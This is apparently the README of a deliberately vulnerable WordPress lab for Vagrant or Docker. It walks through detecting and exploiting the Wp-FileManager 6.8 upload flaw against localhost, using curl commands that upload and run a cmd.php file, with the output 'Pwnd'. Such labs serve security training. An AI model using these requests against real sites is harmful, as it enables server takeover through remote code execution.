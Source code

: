 # WordpressVuln



A vulnerable wordpress site


# Install 

The vulnerable wordpress server could run in :
- a virtual machine on an ubuntu host 
- in a docker



## VM

### Install thanks vagrant  
```
sudo apt install vagrant
git clone https://github.com/jossets/WordpressVuln
vagrant up
```

### Credentials 

Vagrant alpine box credentials are:
- login: vagrant 
- password: vagrant 

## Docker 

### Install thanks docker-compose  

Install docker & docker compose: https://docs.docker.com/engine/install/ubuntu/

```
sudo gpasswd -a $USER docker
git clone https://github.com/jossets/WordpressVuln
docker-compose up
```

# Exploit 

WordPress Plugin Wp-FileManager 6.8 - RCE 
https://www.exploit-db.com/exploits/49178

## Detect 
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

{"error":["errUnknownCmd"]}
```

## Exploit

### Upload cmd.php
```
curl -F "cmd=upload" -F "target=l1_Lw"  -F "upload[]=@cmd.php" "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

### Run it
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/files/cmd.php"

Pwnd
```
